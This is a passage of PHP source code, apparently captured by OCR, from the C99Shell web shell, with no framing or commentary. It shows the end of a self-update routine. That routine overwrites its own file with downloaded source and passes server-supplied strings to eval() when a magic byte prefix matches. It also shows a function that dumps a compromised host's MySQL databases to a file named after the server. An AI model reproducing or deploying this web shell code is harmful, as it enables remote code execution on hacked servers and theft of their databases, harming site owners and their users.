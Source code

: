      if (!$fp) {return "Local error: can't write update to ".__FILE__."! You may download c99shell.php manually &lt;a href=\"".$sourceurl."\"&gt;&lt;u&gt;here&lt;/u&gt;&lt;/a&gt;.";} 
     else {fwrite($fp,$source); fclose($fp); return "Thanks! Updated with success.";} 
    } 
   } 
   else {return "New version are available: ".$string[1];} 
  } 
  elseif ($data{0} == "\x99" and $data{1} == "\x04") {eval($string); return 1;} 
  else {return "Error in protocol: segmentation failed! (".$data.") ";} 
} 
} 
} 
if (!function_exists("mysql_dump")) 
{ 
function mysql_dump($set) 
{ 
global $shver; 
$sock = $set["sock"]; 
$db = $set["db"]; 
$print = $set["print"]; 
$nl2br = $set["nl2br"]; 
$file = $set["file"]; 
$add_drop = $set["add_drop"]; 
$tabs = $set["tabs"]; 
$onlytabs = $set["onlytabs"]; 
$ret = array(); 
$ret["err"] = array(); 
if (!is_resource($sock)) {echo("Error: \$sock is not valid resource.");} 
if (empty($db)) {$db = "db";} 
if (empty($print)) {$print = 0;} 
if (empty($nl2br)) {$nl2br = 0;} 
if (empty($add_drop)) {$add_drop = TRUE;} 
if (empty($file)) 
{ 
  $file = $tmpdir."dump_".getenv("SERVER_NAME")."_".$db."_".date("d-m-Y-H-i-s").".sql"; 
} 
if (!is_array($tabs)) {$tabs = array();} 
if (empty($add_drop)) {$add_drop = TRUE;} 
if (sizeof($tabs) == 0) 
{ 
  // retrive tables-list 
  $res = mysql_query("SHOW TABLES FROM ".$db, $sock); 
  if (mysql_num_rows($res) &gt; 0) {while ($row = mysql_fetch_row($res)) {$tabs[] = $row[0];}} 
} 
$out = "# Dumped by C99Shell.SQL v. ".$shver." 
# Home page: http://ccteam.ru 
# 
# Host settings: 
# MySQL version: (".mysql_get_server_info().") running on ".getenv("SERVER_ADDR")." (".getenv("SERVER_NAME").")"." 
# Date: ".date("d.m.Y H:i:s")." 
# DB: \"".$db."\" 
#--------------------------------------------------------- 
"; 
$c = count($onlytabs); 
foreach($tabs as $tab) 